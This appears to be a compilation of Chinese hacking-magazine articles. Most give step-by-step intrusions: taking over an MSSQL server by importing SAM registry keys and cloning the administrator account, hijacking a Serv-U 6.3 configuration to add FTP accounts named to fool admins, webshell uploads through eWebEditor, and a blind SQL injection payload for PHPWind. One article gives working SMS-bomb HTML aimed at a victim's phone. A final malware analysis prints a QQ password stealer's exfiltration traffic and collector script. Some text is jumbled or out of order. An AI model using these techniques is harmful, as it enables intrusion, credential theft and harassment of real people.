而 Ping 域名得到的 IP 是 61.74.**.34。


看来主页和数据库不在同一个服务器上，不过没关系，反正是 SA 权限……输入 `net user` 居然不回显，怀疑是工具被删除，尝试 `net1 user` 也无回显，只好继续寻找其他办法。

```sql
exec master..sp_addlogin UserName,Password
-- 添加用户
exec master..sp_addsrvrolemember UserName,sysadmin
-- 提升权限
```

先加个 MSSQL 用户，连接成功后执行命令，输入 `dir /s c:\net.exe`，如图2所示。


net 果然被管理员删除了，并且 netstat 也没有逃过。尝试使用“黑客工具浓缩体”的 `mt.exe`，先查看系统用户，输入 `mt chkuser`（见图4）。

再来看终端信息，输入 `mt chkts`，如图5所示。用 `mstsc` 连接过去，显示系统是 Windows 2003，如图6所示。


### 添加用户

剩下的问题就是获得登录用户和密码。


以下是我的作战方案：

- 方案1：上传 findpass2003，尝试找出管理员密码（本次失败）。  
- 方案2：上传 gina.dll 木马，等待管理员上线。  
- 方案3：设法添加用户（本文主要方法）。

主题了。大家都知道微软什么东西都喜欢往注册表上写，所以我打算从注册表下手。首先在本地新建一个用户，然后来到注册表的如下位置。

`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`。把你新建的用户导出，`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users` 下用户对应的值也要导出。

例如我新建的用户名是 loveangel，则需要导出的文件是 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names` 下的 loveangel 项，以及 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users` 下的 `000003F6` 项。

再写个批处理文件，把这两个注册表文件和批处理文件做成自解压包上传到肉鸡上。批处理文件内容如下：

```bat
regedit /s loveangel.reg
regedit /s 000003F6.reg
del loveangel.reg
del 000003F6.reg
del 1.bat
```

运行自解压包后用 `mt -chkuser` 命令可以发现已经添加了 loveangel 用户，如图8所示。

方法导入的 loveangel 在肉鸡上不属于任何组成员。接下来克隆用户，输入命令 `mt -clone administrator loveangel`，结果如图9所示。

克隆成功，可是密码问题还没解决。用 PsTools 里的 `pspasswd.exe` 修改用户密码，格式为 `pspasswd username Newpassword`，执行后结果如图10所示。

修改成功，现在我们试用 loveangel 登录吧，如图11所示。

### 总结

到这里，这台服务器就已经在我们的掌握之中了。文章到此也就结束了。作者认为系统自带工具更方便，也更利于在非图形界面条件下完成用户添加与控制。

适合读者：广大网民

前置知识：IE，Winsock Expert 使用

## 轻松获取江民通行证密码

文／图　给你阳光

我从第一台电脑装上 KV100 到现在的 KV2006，已经使用 N 年了。我个人对江民的杀毒软件还是很信任和放心的。时至今日，KV 官方实施了以充值的通行证达到网上升级的收费计划，此计划方便了广大网民，可是通行证本身现在却出了重大的安全问题。

相信朋友们都听过江民杀毒软件或使用过吧。现在要升级必须注册江民通行证，并且通行证上还要捆绑一个合法的序列号。序列号可以充值，可以更换，这对正版用户的影响不大，应该说方便了很多朋友。

今天我写这篇文章就是简单说一下江民通行证存在的一个重大安全隐患：可以通过密码取回功能破解任何一个存在的通行证密码。

取回密码时，我们填入一个存在的通行证账号，只要够细心，就可以取到该通行证的密码。

第一步当然是进入取回密码的页面，如图1所示。

把用户名填写好就行了，其他的不用管，启动 WS 抓包工具，打开浏览器的进程，然后提交。浏览器会提示“账号信息出错”，但是网站很不“老实”地把密码偷偷告诉我们了，大家看看 WS 所抓取的数据，如图2所示。

从图2我们可以看到，密码通过 JavaScript 脚本输出了。由于浏览器的脚本执行原因，执行到第一段脚本时就自动跳转到首页，所以后面显示密码的脚本就失效了。

我们只要用泄露的密码登录就可以得取免费的“面包”了，如图3所示。

```javascript
<script language="JavaScript">
alert('输入信息有错误!')
document.location.href='find_password_quie.asp'
</script>

<form action="" name="myform" method="post">
<input type="hidden" name="mytext" value="">
</form>

<script language="javascript">
document.myform.mytext.value=2
alert('你的密码是:yang***doudou')
window.location='.../index.asp'
</script>
```

适合读者：网络爱好者、入侵爱好者

前置知识：无

## 再谈刷票

文／邪灵

女友参加了《课堂内外》发起的暑期编辑实习活动的海选，看到有的人1500多票，而女友却只有10多票，心里那个急啊，于是也就想顺带看看有没有什么漏洞。

首先说下投票方式，如图1所示。只要在线点击“我要投票”就可以了，一个人一天可以投一次。最开始我是不断申请新用户，然后来投票。当时心里还挺乐的：嘿嘿，没做 IP 限制来着？

慢慢地就有点坐不住了，于是想别的方法试试。

通过图1源代码找到“我要投票”的链接，直接打开显示“你今天已经投过票了”，如图2所示。

我想一定是 Cookies 记录在作怪……

《课堂内外》网站已经不能“记住”我了。重新找了个工具（如图3）后，登录后果然抓到了 Cookies。这里大胆猜测系统根据 Cookies 是否存在来判断是否投过票，因此可通过修改 Cookies 重复投票；另外只要用户 ID 达到一定长度也可无限制投票。

最后谈一下修补方法：若系统在投票认证上增加一个判断用户是否存在的函数，就不会被这样轻易刷票了。希望管理员看到本文尽快补上漏洞。

**脚本小子：**也许你已经受够了动网论坛层出不穷的漏洞，也许你正在为论坛屡次被挂马而犯愁。然而采用 ASP 系统的网站，动网只能是首选。如何保护自己的动网不被他人入侵，已经成为众多站长津津乐道的话题，而现在已经有朋友研究出了动网免疫的方法，大家不妨一起来看一下吧！虽然这个方法有点让人哭笑不得。

**适合读者：**网络爱好者、入侵爱好者、脚本爱好者  
**前置知识：**无

## 永久免疫动网漏洞

文／佚名

笔者向大家介绍一个简单有效、可以终身免疫论坛被攻陷的方法。介绍解决方法之前，我们先简单了解下网上针对动网论坛攻击的常见手法。

- 1. 利用 upfile.asp 漏洞，跳过管理员权限，直接上传 ASP 木马（该漏洞后续已修复）。
- 2. 通过其他途径获得管理员密码，或者管理员 MD5 密码，然后登录后台达到入侵目的。
- 3. 利用动网代码漏洞提升权限，在管理员组中增加一个用户，进而登录论坛后台，实现“挂马”等入侵行为。

在上传漏洞已经被修复的情况下，黑客只能采取后两种。仔细分析不难看出，它们都涉及到一个关键词“后台”。因此，如果断绝了黑客登录后台的可能，那么网站将从此免受各种漏洞的侵扰！

我的方法是：平时使用时，把数据库中 Admin 表删除（实际上可改名），在需要后台管理时再将其还原。这样的更改对论坛正常运行没有任何影响。

为了避免每次都本地修改数据库再上传，使用 ASP 写一个在线管理程序，论坛配置完成后运行一次即可对常见攻击手段“免疫”；需要登录后台时再运行程序恢复即可（如图1所示）。

程序代码我已经为大家准备好了！这里给出核心的一段：

```vb
Sub RenameTable(conStr, oldName, newName)
  Dim objADOXDatabase
  Set objADOXDatabase = Server.CreateObject("ADOX.Catalog")
  objADOXDatabase.ActiveConnection = conStr
  objADOXDatabase.Tables(oldName).Name = newName
  Set objADOXDatabase = Nothing
End Sub
```

当然，网络无安全！道高一尺，魔高一丈。上面的方法对绝大多数论坛攻击手段是有效的，但也有郁闷的时候：如果网站所在服务器不幸被黑，且黑客可以光顾论坛所在目录，那一切努力都将白费！本文只是从一个角度探讨如何帮助系统提高安全性，仅作抛砖引玉之用。

**脚本小子：**玩 Blog 的朋友越来越多，DIV BLOG 也渐渐受到人们欢迎。它是一款基于 ASP 的开源 Blog 系统，其界面漂亮，功能也很强大，目前网上很多人在采用这套系统。不过对于我们黑客爱好者来说，界面和功能都是其次，程序是否安全才是我们所关注的要点。

适合读者：网络爱好者、入侵爱好者

前置知识：无

## 深度剖析 DIV BLOG 0.6 安全性

文／图 曾云好

最近在玩 Blog，发现 DIV BLOG 蛮有意思的，不过测试了一下，检查出最新的 0.6 版中存在不少漏洞，这里公布出来与大家共享。

我们可以利用关键字“Program by DLog”来查找使用该系统的网站，查询结果大约有16万，如图1所示。

DIV BLOG 0.6 由 1. 博客系统 2. 统计系统 3. eWebEditor 在线编辑系统三部分组成。下面就分别来对这三部分进行深度剖析。

### 博客系统

写这套系统的程序员还是有一定的安全意识的，因为系统中大部分提交数据的表单都对单引号进行了过滤。但是仅仅过滤单引号有用吗？显然不够，因此该系统还是出现了比较严重的注入漏洞。这里尤以文件 showlog.asp 最为严重，因为 BLOG 上的日志文件都是用它来显示的，代码如下：

```vb
dim log_id,e_log_r_id,log_r_id,scode
sub getlogcode
    log_id=replace(request("log_id"),"'","")
    if request("log_id")="" then
        scode=scode&"错误的地址!"
        exit sub
    end if
    if request("log_r_id")<>"" then
        e_log_r_id=replace(request("log_r_id"),"'","")
    end if
    sql="SELECT * from log where log_id="&log_id&""
    '仅仅过滤了单引号
    '……省略代码
```

通过分析上面的代码，我们可以轻易发现其存在漏洞。类似这么明显注入漏洞的文件还有很多，但是 showlog.asp 的漏洞可以直接在 URL 地址栏内进行攻击，我们只需要在注入工具中加入数据库中的表名及列名就可以进行注入了，非常方便，如图2所示。

```vb
……省略代码
dim lastlog_id,nextlog_id,lasttitle,nexttitle,cat_select,lncode
sub getlnlog
    if cat_id<>0 then
        cat_select="and cat_id="&cat_id
    else
        cat_select=""
    end if
    sql="SELECT top 1 log_id,log_title FROM log where log_id<"&request("log_id")&" " _
        &cat_select&" ORDER BY log_id ASC"
    '没有任何过滤就执行数据库操作，出现了注入漏洞
    set rs=conn.Execute(sql)
……省略代码
```

2006 年第 8 期《黑防刺猬》给我们介绍了一种隐藏式的注入漏洞，而本系统也同样出现了类似情况。这个漏洞由 showlog.asp 和 remark.asp 两个文件组成，请看代码。

```vb
showlog.asp 代码：
……省略代码
scode=scode&"<div>"
scode=scode&"<form name='EditRemark' method='POST' action='remark.asp'>"
scode=scode&"<input type='hidden' name='log_r_author' value='"&ASPLOG("log_r_author")&"' />"
scode=scode&"<input type='hidden' name='log_r_id' value='"&log_r_id&"' />"
scode=scode&"<input type='hidden' name='log_id' value='"&log_id&"' />"
scode=scode&"<input type='hidden' name='cat_id' value='"&cat_id&"' />"
scode=scode&"<input type='hidden' name='remark_action' value='edit_remark' />"

' 上面数据的类型都是 hidden
' remark.asp 代码（节选）
log_r_content=RTrim(replace(request("log_r_content"),"'",""))
log_r_author=replace(request("log_r_author"),"'","")
log_r_face=replace(request("log_r_face"),"'","")
log_id=replace(request("log_id"),"'","")
log_r_id=replace(request("log_r_id"),"'","")
cat_id=replace(request("cat_id"),"'","")
adduser=replace(request("adduser"),"'","")

if Ulogin="true" or unknowadd="true" then
if log_r_author=username or isad=1 then
if request("remark_action")="add_remark" then
sql="INSERT INTO log_r(log_r_content,log_r_author,log_r_face,log_id,allows,allowubb) VALUES ('"&log_r_content&"','"&log_r_author&"','"&log_r_face&"','"&log_id&"','"&allows&"','"&allowubb&"')"
conn.Execute(sql)

SQL="UPDATE log SET lr_Count=lr_Count+1 where log_id='" & log_id & "'"
conn.Execute(sql)
SQL="UPDATE log_count SET r_Count=r_Count+1 where count_id=1"
conn.Execute(sql)
SQL="UPDATE user_mdb SET f_r_count=f_r_count+1 where username='" & log_r_author & "'"
conn.Execute(sql)
```

在文件 showlog.asp 的表单中，其 type 类型是 hidden。在文件 remark.asp 中对 showlog.asp 表单中的数据只是过滤了单引号，从而又使漏洞出现了。当然这些提交框是看不见的。攻击方法也是一样：先抓包，然后修改数据包中的一些数据，构造出注入攻击语句，从而得到管理员密码。具体过程这里就不演示，可以参考第 8 期刺猬的文章。

跨站漏洞是我无意中发现的。当时看见上面有一个网友评论，我就写了一些跨站代码，但是并没有出现跨站漏洞。我想可能系统过滤了跨站代码吧，然而分析源程序时却发现根本没有过滤。但是为什么没有出现跨站呢？如图3所示。

等我看到 top10.asp 时才有了点思路，此文件的功能是列出前 10 名的评论，查询代码如下：

```vb
dim top
dim SQL
set top = Server.CreateObject("ADODB.Recordset")
SQL = "Select top 10 * from log_r order by log_r_id desc"
top.open SQL,conn,1,1
```

因为评论是刚刚发表的，所以在打开 top10.asp 时会对我们提交的跨站代码进行一次查询，事实证明了我的想法，如图4所示。

上面的漏洞都比较常见，不管是明显式还是隐藏式注入漏洞及跨站漏洞，都是因为没有把参数过滤干净而导致的。此系统存在注入漏洞的地方还有很多，这里只是把比较典型的拿出来给大家分析。目前防注入的程序比较多，这里就不多讲了，特别要注意的问题是：任何提交的数据如果要对数据库进行操作，就必须对提交的数据进行严格过滤。

### 统计系统

统计系统采用的版本是 COCOON Counter，功能不错，但在安全性上还是有一些不完善的地方。我测试了很多使用该系统的网站统计系统，居然全部都是原始密码（用户名：ting，密码：123456）。可能大家都认为该统计系统不会对系统造成什么“伤害”吧？其实不然，请听我细细讲来。

管理员进入该统计系统的“管理工具”时不需要用户名验证，只要密码就可以了。点击首页的“管理”进入，在这里可以看到统计系统上所有的用户名及密码。Info.asp 的功能是修改资料，Register.asp 的功能是注册。这两个文件是统计上唯一可以往数据库写入数据的地方，可是在这里却出现了问题，这里以 Info.asp 为例，代码如下：

```javascript
var bIsLogined = chkLogin(true);
if(isPostBack()){
  var sUID = Request.Form("UID")+"";
  var sPwd = Request.Form("PWD")+"";
  var sNewPwd = Request.Form("PWD1")+"";
  var sSiteTitle = Request.Form("SiteTitle")+"";
  var sSiteIntro = Request.Form("SiteIntro")+"";
  var sSiteUrl = Request.Form("SiteUrl")+"";
  var sSiteUrl1 = Request.Form("SiteUrl1")+"";
}
```

```asp
var sSiteUrl2 = Request.Form("SiteUrl2")+"";
var sSiteMaster = Request.Form("SiteMaster")+"";
var sSiteEmail = Request.Form("SiteEmail")+"";
var sSiteOpen = Request.Form("SiteOpen")+"";
sSqlString = "select PWD,SiteTitle,SiteIntro,SiteUrl, SiteUrl1,SiteUrl2,SiteMaster,SiteEmail,SiteOpen,UID from t_Site where SiteId='"+SiteId+"'";
var oRs = new ActiveXObject("ADODB.Recordset");
oRs.open(sSqlString,oConn,1,3);
```

## eWebEditor 在线编辑系统

eWebEditor 在线编辑系统相信大家都知道吧？安全性不是很好。我们已经得到前台 BLOG 管理员的密码，所以根据社会工程学来判断，我们可以利用前台密码来登录。我们还可以试图下载数据库（默认数据库地址 db/ewebeditor.mdb）或默认账号登录（用户名 admin，密码 admin）。这些猜测在网上的成功率非常高，所以我们可以利用 eWebEditor 来得到 WebShell。这里我们可以上传 ASP、ASA、CER 三种类型的木马，如果管理员删除了对 ASA 和 CER 扩展的应用程序映射，打开木马的时候就会出现下载对话框，而且文件类型是属于安全证书的，但 ASP 是不可能被删除的，因为 BLOG 是用 ASP 来解析的。这里上传有两种方法，一种是在上传类型中添加 aaspsp，另外一种是在图片类型中加入 asp。如图9、图10所示，可以轻易地得到 WebShell。

上面代码所对应的功能如图5所示。在这里我们可以跨站挂马，也可以注入得到管理员的密码。直接写入挂马代码以后就可以看到效果了，如图6所示。


图5

统计系统还有一个 aspSysCheck.asp 文件。此文件是一个 ASP 系统探针。它的功能非常强大，上面都是一些关于服务器的信息，虽然我们不能操作，但可以看到一些非常敏感的信息。此文件的隐患是查看该文件的信息不需要进行任何验证，所有人都可以直接查看。如图7、图8所示。看，都是敏感信息，连网站的绝对路径也出来了。


图6


图7


图8


图9


图10

当然还可以在添加样式设置中，把上传路径改为“../../../”，因为这个编辑系统在第二级目录中，如果不是在第三级目录的话，可以参照统计系统的 aspSysCheck.asp 文件中的绝对路径信息来进行构造。这样上传的文件就直接到了网站的根目录下。从统计系统的 aspSysCheck.asp 可以知道系统是支持 FSO 的，所以我们可以直接在“上传文件管理”的对应样式中对网站上所有的文件进行浏览和删除操作。

### 小结

上面就是我剖析此系统的一个完整过程，总的来说不难，都是平时积累下来的一些技巧和思路。在写 BLOG 跨站的时候走了不少弯路，因为此跨站有点奇怪，代码写入和代码执行是在不同的文件上。还有就是统计系统的 aspSysCheck.asp 在上传 WebShell 的时候提供了很多有价值的信息。其实在分析系统的时候如果能够灵活地结合上文信息，就可以很容易得到意想不到的效果。

适合读者：网络爱好者、免费爱好者

前置知识：无

## VIP会员学习成果展：

## 炸弹归来之手机版恶梦


文/图【黑防VIP】小生这厢有礼

大家好，我是黑防VIP小生，这厢有礼。我在黑防上发表了一篇名为《菜鸟也要自己做永不过期短信炸弹》的文章，只是把其中设置手机号的代码和大家分享了一下。在VIP群里不少VIP兄弟和我探讨了各种改善加强功能的方法，包括添加自动刷新网页代码、单网页指向多网页、增添框架等几种方法。我逐一进行了测试，发现增添框架比较简单，而且效果好，修改很容易而且便于控制，现在就和大家分享一下这种实现方法。

首先，我们先创建短信炸弹网页，这在上一期杂志中有详细介绍，我这仅仅是列举出来。

```html
<html>
<head>
菜鸟炸弹
<form action="http://mo.bokee.com/special/feixun/reg.php" method="POST">
<input value="手机号" name="mobile" />
<input name="nextstep" type="hidden" id="regstep" value="2" />
<script>
this.document.forms[0].submit();
</script>
</form>
</body>
</html>
```

保存为 mobile.html。填上你需要攻击的手机号。如果想在一个网页中打开多个网页，我们可以这样设想：把网页看作一个西瓜，把它切成多份来使用，每一份都可以分给一个人。

```html
<html>
<frameset cols="20%,20%,20%,20%,20%">
  <frameset rows="33%,33%,*">
    <frame src="mobile.html">
    <frame src="mobile.html">
    <frame src="mobile.html">
  </frameset>
  <frameset rows="33%,33%,*">
    <frame src="mobile.html">
    <frame src="mobile.html">
    <frame src="mobile.html">
  </frameset>
  <frameset rows="33%,33%,*">
    <frame src="mobile.html">
    <frame src="mobile.html">
    <frame src="mobile.html">
  </frameset>
  <frameset rows="33%,33%,*">
    <frame src="mobile.html">
    <frame src="mobile.html">
    <frame src="mobile.html">
  </frameset>
  <frameset rows="33%,33%,*">
    <frame src="mobile.html">
    <frame src="mobile.html">
    <frame src="mobile.html">
  </frameset>
</frameset>
</html>
```

将这段代码保存为 bomb.html，然后与刚才生成的 mobile.html 放入同一目录下。考虑到有些人对网页代码不是太熟悉，这里我稍微解释一下，其中 `<frameset cols="20%,20%,20%,20%,20%">` 表示把整个网页纵向分成5个框架来显示，而 `<frameset rows="33%,33%,*">` 则是把网页又横向分为3个框架。这样，我们把整个网页分为了15份。然后 `<frame src="mobile.html">` 代表每一个框架都指向网页 mobile.html。于是就达到了短信炸弹的功能，我们看看效果如图1所示。


看到了吧，这样实现了15条短信同时发送，而且短信条数我们可以很轻易地用修改代码来改变。

如果电脑配置和网络允许，我们可以再制作一个多框架的网页 superbomb.html，指向的不是 mobile.html，而是 bomb.html。这样就是 15×15=225 条短信同时发送！说是手机的恶梦一点都不为过，大家酌情使用吧。

## PHPWind跨站、注入漏洞之我见


最近在 PHPWind 官方看到有人说 PHPWind 论坛系统出现重大漏洞。于是我用 Google 搜索相关关键字，发现在《黑防》4月刊出了“PHPWind 跨站、注入双重漏洞”的文章……于是我马上找来相关程序进行测试，终于明白作者能注入是因为遗忘了一段很重要的代码。

以下是我的分析（由于能力和水平有限，分析中如有错误望大家指出）。

- 1. 预备分析：注入的关键是构造 SQL 语句，防注入关键是对引号等字符转义；PHP 解析中有 `magic_quotes_gpc` 可控制是否对提交数据加转义。
- 2. 注入点分析：文中提到 `$db->get_one("SELECT password,email,regdate FROM pw_members WHERE username='$pwuser'");`，在未过滤情况下 `$pwuser` 可被构造。

个人认为该方法有限制：需要猜测 Web 目录完整路径；若 MySQL 与 PHPWind 不在同一服务器，往往无法达到目的。相比之下，猜密码构造方式更好，只需改良。

先看 `sendpwd.php` 内的程序：

```php
$submit2 = $userarray['regdate'];
$submit1 = md5(substr($userarray['password'],1,10));
```

它是将密码前10位和注册时间共同作为找回密码标识。那么可用语句猜密码前十位：

```sql
'admin' UNION SELECT IF (SUBSTRING(password,1,1)=CHAR(53),BENCHMARK(1000000,MD5(CHAR(1))),null),1,1 FROM pw_members WHERE uid=1/*
```

再用语句 `'admin' UNION SELECT IF (SUBSTRING(password,1,1)=CHAR(53), BENCHMARK(...), null),1,1 FROM pw_members WHERE uid=1/*` 猜 `regdate`。`regdate` 是10位时间戳，可根据日期换算前4位，后6位再逐步猜测。

现在来算复杂度：每位密码有 26+10 种可能，时间戳每位有10种可能……得到管理员密码后即可到后台添加一句话木马。

但这些分析忽略了一个关键文件：`global.php`，其中有如下代码：

```php
if(!get_magic_quotes_gpc()){
    Add_S($_POST);
    Add_S($_GET);
    Add_S($_COOKIE);
}
```

`Add_S` 函数在 `magic_quotes_gpc=off` 时开始工作，再看这个函数：

```php
function Add_S(&$array){
    foreach($array as $key=>$value){
        if(!is_array($value)){
            $array[$key]=addslashes($value);
        }else{
            Add_S($array[$key]);
        }
    }
}
```

一个递归遍历函数，给数组中所有变量加上转义字符，这相当于 `magic_quotes_gpc=on`。

适合读者：入侵爱好者，服务器管理员

前置知识：Serv-U 基本使用方法

## Serv-U 6.3的另类攻击


前些日子当我在入侵到一个装有 Serv-U 的主机时，发现他所安装的版本是 6.3，网上对 6.3 版本的利用软件、文章还没有，很多以往的提权、加账号的办法都不能用了，尤其是当管理员为 Serv-U 加了登录密码以后，想要利用工具更是难上加难了。如图1所示。

同时，6.3 的 Serv-U 密码又加上 MD5，你该不会要挂着程序跑密码吧？要是那样的话我只能祝你好运了。难道就没有办法利用了吗？非也，往下看你就会豁然开朗。


## 针对 Serv-U 6.3的攻击

- 1. 先自己下载一个 Serv-U 6.3，网上多的是。该打汉化包的打汉化包，该注册的注册。其实你不汉化也没关系，界面上就那几个按钮，闭着眼都能按对了。反正我用的是绿色汉化版。
- 2. 登录你的 WebShell，在肉鸡上找到 Serv-U 的安装目录，打开配置文件 ServUDaemon.ini，如图2所示。
- 3. 然后删掉如图3所示的代码中间的那一行 `LocalSetupPassword=...`，在删掉之前先在某个地方先保存一下，不然你会后悔的。
- 4. 把整理过的 ServUDaemon.ini 复制下来粘贴替换掉本地的 ServUDaemon.ini 文件，记得保存。因为本地是第一次运行 Serv-U 6.3，所以你的 ServUDaemon.ini 里面应该是空的，要是你以前用过的话建议备份原 ServUDaemon.ini。
- 5. 打开本地的管理程序 ServUAdmin.exe 对 Serv-U 6.3 进行配置。想添加用户就尽情地添加，想改权限的就尽情地改吧，如图4、5、6所示。
- 6. 保存修改以后，此时的 ServUDaemon.ini 基本上就和理想中的差不多了。之所以说基本上，是因为远程肉鸡上的管理员密码还空着，不希望管理员一打开不用输密码直接就进去了吧？
- 7. 找到刚才保存的管理员密码 `LocalSetupPassword=...` 原样插回去（文中还提及 `AntiHammer=1`、`ProcessID=1020` 等）。

```ini
ProcessID=2472
LocalSetupPassword=zi178B4E50E62820CCE60DB1399C1C9C3D
[DOMAINS]
```


> 此时你对 ServUAdmin.exe 的操作就相当于变相对远程肉鸡的 ServUAdmin.exe 进行操作，所有被保存下来的配置最终都会影响到肉鸡 Serv-U 的运行，所以要慎重一些。建议如果添加账号的话可以添加和系统名称比较相似的，比如 Admin、Admins、root 之类的借以迷惑管理员。

（右栏续文）6、7步骤的说明文字，主要讲述恢复管理员密码字段并避免暴露，以及对配置项进行回填。


保存一下，现在知道刚才让备份这串密码有什么用了吧？OK，这样一个完美的 ServUDaemon.ini 就搞定了。现在要做的就是再次登录你的 WebShell，把肉鸡上的 ServUDaemon.ini 替换成我们刚做好的 ServUDaemon.ini，如图7所示。


- 8. 现在重启 Serv-U 就可以加载我们的系统配置了：

```bash
Microsoft Windows [版本 5.2.3790]
(C) 版权所有 1985-2003 Microsoft Corp.

C:\Documents and Settings\Administrator>net stop Serv-U
Serv-U FTP 服务器 服务正在停止.
Serv-U FTP 服务器 服务已成功停止.

C:\Documents and Settings\Administrator>net start Serv-U
Serv-U FTP 服务器 服务正在启动.
Serv-U FTP 服务器 服务已经启动成功.
C:\Documents and Settings\Administrator>
```

除了上面的方法外，其实还有一种更简单的方法，就是在 `ProcessID=1172` 与 `[DOMAINS]` 之间加上一句 `ReloadSettings=True`，如图8所示。它的作用是不重启 Serv-U 而自动刷新配置文件并使之生效，生效后此项随之消失。

```ini
ProcessID=1172
ReloadSettings=True
[DOMAINS]
```

至此，Serv-U 6.3 的另类入侵就完成了。至于后面你要利用已经添加的账户运行什么程序、执行什么命令，那就是后一步的事情了，自由发挥吧。

> 当首次启动 ServUAdmin.exe 打开“本地服务器”的时候，ServUDaemon.exe 也随之启动。它的作用类似于 ASP 中的 Session 变量：Serv-U 通过 ServUDaemon.exe 保存你输入的管理员密码会话。即使关闭 ServUAdmin.exe，若 ServUDaemon.exe 未结束，Session 仍存在。要清除 Session 必须结束 ServUDaemon.exe（可通过 kill.exe）。否则会出现需要输入密码的提示框。

## 针对 Serv-U 6.3 攻击的防御

说完了攻，现在来说说防。其实要想防止此类漏洞，可以从权限上解决。既然一切的源头都从 LocalSetupPassword 开始，那我们就堵住修改 LocalSetupPassword 的这道大门。

首先，要保证你的 Serv-U 的安装目录权限是 IUSR 不可修改的。这样就算入侵者发现了你的管理密码也无济于事。其次，不要给 IUSR 用户在该文件夹的写入权限，同时确保 Serv-U 里的用户没有 Serv-U 安装目录或其上层目录的写入权限。最好把 Serv-U 安装目录放在根目录并单独设置权限，避免“权限继承”。

再次，就是做好站点安全。利用 SQL 注入入侵的人轻则挂马，重则会对系统大动干戈。与其事后查毒杀马，不如提前把安全做好。最后，设置好 Web 文件夹权限；即使入侵者通过 SQL 注入进来，没有写入权限也难以挂马。

好了，Serv-U 6.3 的另类攻防就写完了。在以后的“活动”中，很多事情换个角度都容易解决。最后，祝大家万事如意，共攀网络安全技术高峰！

## 中招→分析→追踪

适合读者：黑客技术爱好者，网民  
前置知识：逆向基础技术


文／图：icexiaoye [E.S.T]

### 中招

某天，无意间打开超级兔子的启动项管理，发现两个陌生启动文件在 system32 下，吓出一身冷汗。于是赶紧打开 C 盘，发现两个类似鸽子服务端的文件，打开冰刃检测，果然 IE 被插入程序（所有木马都盯着 IE，其实大家可以换个思路，插入其他进程，比如装迅雷的人就很多啊……），基本可以判断是中了鸽子了！然后把这 4 个文件拖到桌面，如图 1 所示。


图 1

### 分析

拿起国货瑞星扫扫，鸽子居然还免杀的，另外两个显示为 Trojan.PSW.QQRobber 和 Trojan.DL.VB.cao，初步判断为 QQ 盗窃程序和 VB 写的下载者（DL=Downloader），如图 2 所示。


图 2

拿起卡巴一扫，全出来了，鸽子加了北斗壳，而那个下载者则是加了 UPX 壳，如图 3 所示。


图 3

先分析盗 QQ 的软件吧。

### 1. QQ 盗窃软件分析

功能：盗 QQ，把瑞星防火墙直接删除，把瑞星服务关掉（最近病毒挺嚣张的，从原来的偷偷摸摸到现在光明正大地和杀毒软件叫板），同时破坏 QQ 键盘保护。懒得脱壳，直接动态跟踪，打开 WSockExpert，跟踪 ntdhcp，然后打开 QQ，输入 QQ 号码和密码（这时可以发现，密码框里的锁显示被 K！！！），QQ 登录上了，查看 WSockExpert 拦截的信息，如图 4 所示。

把上图中的 1、2 两条数据包连在一起分析。

| No | Source | Destination | Protocol | Info |
|---|---|---|---|---|
| 1 | ... | ... | HTTP | GET /asp/gsm/ip.asp |
| 2 | ... | ... | HTTP | POST /mm/tmdqq.asp |

图 4

```http
GET /asp/gsm/ip.asp HTTP/1.1
User-Agent: MyApp
Host: www.cidu.net
...
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Content-Type: text/html
Set-Cookie: ...
...
```

程序连接到 www.cidu.net，获取被盗用户的地理位置（真不知道有什么用，盗个 QQ 管你是哪里的，不过我想，如果把这里的连接改成网马的地址的话……）。继续，下面才是主题：

```http
POST /mm/tmdqq.asp HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: MyApp
Host: www.aiin.com.cn
Content-Length: 33
...
num=119429094&pass=885417...
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Set-Cookie: ...
Send OK!
```

从这里可以知道密码发送到 `www.aiin.com.cn/mm/tmdqq.asp` 里，于是打开 `www.aiin.com.cn/mm/tmdqq.asp`，提示“SEND OK”。

这下有点爽了，`Baidu` 了一下 `tmdqq.asp`，原来是阿拉 QQ 大盗。下载了一个，打开里面的 `tmdqq.asp` 文件：

```asp
<%
num=request("num")
pass=request("pass")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("qq.txt"),8,True)
file.writeline num+"----"+pass
file.close
set file=nothing
set fs=nothing
response.write "Send OK!"
%>
```

很明显，QQ 密码储存在 `qq.txt` 里，用 IE 直接打开，发现上面有好几个被盗窃的 QQ，如图 5 所示。


图 5

- 到此，`ntdhcp` 分析完毕。

#### 2. 分析免杀鸽子

现在开始分析那只免杀的鸽子，直接用 OD 载入，如图 6 所示。


图 6

典型的北斗鸽包装，懒得脱壳。带壳分析：下硬件断点 `hr 0012ffc0 F9`，然后 F7 走一步，删除模块分析。

```asm
004C2009  60        pushad
004C200A  50        push eax
004C200B  51        push ecx
004C200C  51        push ecx
004C200D  52        push edx
004C200E  51        push ecx
004C200F  53        push ebx
004C2010  52        push edx
004C2011  5B        pop ebx
...
```

```asm
004C2012  5B        pop ebx
004C2013  5A        pop edx
004C2014  5B        pop ebx
004C2015  58        pop eax
004C2016  58        pop eax
004C2017  58        pop eax
004C2018  61        popad
004C2019  E8 ...    call ...
```

`004C2019` 处的 CALL，F7 进去后跑到 `004A29E6`。搜索命令 `mov eax,0A`，跑到如下代码处：

```asm
0049D3AE  B8 0A000000   mov eax,0A
0049D3B3  E8 ...        call ...
0049D3B8  84C0          test al,al
0049D3BA  0F84 ...      je ...
...
0049D3C7  E8 ...        call ...
```

F2 下断，继续 F9 跑，然后全部 F8，跑到如下图 7 所示代码处。


图 7

> 黑防的专版鸽子采用的是这样的方法，要收 VIP 版的鸽子，上线信息要跟进 `0049D3C7` 里。

密码也出来了，不过是 MD5 加密的，如图 8 所示。


图 8

在 `0049D450` 处出现了安装文件位置 ASCII：`C:\WINDOWS\shost.exe`，上线端口是 `8000`，如图 9 所示，是作者设置的服务名。


图 9

好了，不跟了。直接打开 `http://www.aiin.com.cn/huigezip.txt`，内容是 `http://211.91.233.117:8000/wwwroot/`。鸽子主人出现了，随后提到要 DDoS。

#### 3. 分析下载者

下载者是 VB 写的。通过断网、查看进程、`WsockExpert` 追踪等方式，最终获取信息：下载者从 `http://www.aiin.com.cn/` 下载 `0.exe` 和 `qq旧.exe` 并运行。

### 追杀

